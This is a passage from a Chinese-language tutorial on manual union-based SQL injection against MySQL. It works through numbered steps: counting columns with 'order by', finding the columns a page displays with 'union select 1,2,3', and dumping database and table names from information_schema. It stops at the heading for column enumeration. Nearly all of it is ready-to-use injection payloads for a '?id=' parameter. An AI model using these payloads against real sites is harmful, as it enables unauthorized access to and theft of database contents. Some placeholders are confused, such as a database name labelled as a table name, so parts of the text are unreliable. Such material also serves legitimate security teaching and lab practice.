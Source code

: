 使用 **order by** 语句判断，该表中一共有几列数据

```mysql
?id=1' order by 3 --+
```

输入数字，直到回显不正常，即该数据库有几列

### 第三步 查看页面是否有显示位，有几个

将id=1改为一个数据库不存在的id值，如861，

使用**union select 1,2,3**联合查询语句查看页面是否有显示位

```mysql
?id=861' union select 1,2,3 --+
```

**注意：**这个显示位指的是网页中能够显示数据的位置，

举例来说，比如我们通过ORDER BY命令**知道了表的列数为11**。然后再使用UNION SELECT 1,2,3…,11 from table，网页中**显示了信息8**，那么说明网页**只能够显示第8列中信息**，不能显示其他列的信息。也可以理解为**网页只开放了8这个窗口**，你想要查询数据库信息就必须要通过这个窗口。所以如果我们想要知道某个属性的值，比如admin,就要把admin属性放到8的位置上，这样就能通过第8列爆出admin的信息。

```mysql
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

### 第四步 爆值 Payload

#### 猜数据库（爆库）

```MySQL
select schema_name from information_schema.schemata --+

#查询数据库的所有字符串并以","分割每一条数据
select 1,2,group_concat(schema_name) from information_schema.schemata --+


id=0 union select 1,database() --+
```

#### 猜某库的数据表（爆表）

```MySQL
select table_name from information_schema.tables where table_schema="数据表名" --+


select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='表名') --+

//database()需要替换成暴库的库名
?name=0' union select 1,group_concat(table_name) from information_schema.tables where table_schema="database()" --+
```

#### 猜某表的所有列（爆列）
